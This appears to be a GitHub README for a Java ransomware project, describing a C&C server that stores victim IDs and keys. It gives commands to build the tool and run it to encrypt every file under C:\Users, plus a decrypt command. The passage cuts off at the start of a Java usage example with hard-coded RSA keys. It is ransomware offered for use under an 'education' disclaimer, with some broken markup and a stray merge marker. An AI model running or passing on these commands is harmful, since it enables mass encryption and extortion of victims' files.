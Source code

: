 <p>Assume that there is a C &amp C Server who  for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.</p>

<p>The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory).</p>

<p>For Education Purposes I will not Provide the Full Server  source code.,as i decribed in the previous paragraph.  Let's imagine a simple testing example which client by deafult has the Asymmetrtic encryption keys.</p>

# Usage and How it Works
<p>The easiest way to run this Project is to use the the <a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/JavaRansomware-2.1-jar-with-dependencies.jar">.jar</a> open a cmd terminal and simply run the below commands </p>

 ```
 $ mvn clean install
```

Encrypt all files in the current Path wait until the execution will be finished

=======
<p> Encrypt All Files in the Current Path wait until the execution will be finished </p>

 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p> Decrypt All Files in the Current Path wait until the execution will be finished </p>

 ```
 $ java -jar ...JavaRansomware\targetJavaRansomware.jar
```

> DON'T RUN JavaRansomware.jar IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT(VMWARE)!

if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget
to give Input arguments from the Command-Line Arguments. i've put a printscreen to see how to give Paramaters

<h2>Java Manual</h2>

```java
package com.security;


import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.GeneralSecurityException;

public class Example {
    private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
    private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";


    public static void main(String[] args) throws RansomwareException, GeneralSecurityException {
        // Set Whatever path you want to test
        Path testPath = Paths.get("C:\\Users\\User\\Documents\\GitHub\\JavaRansomware\\src\\resources");
```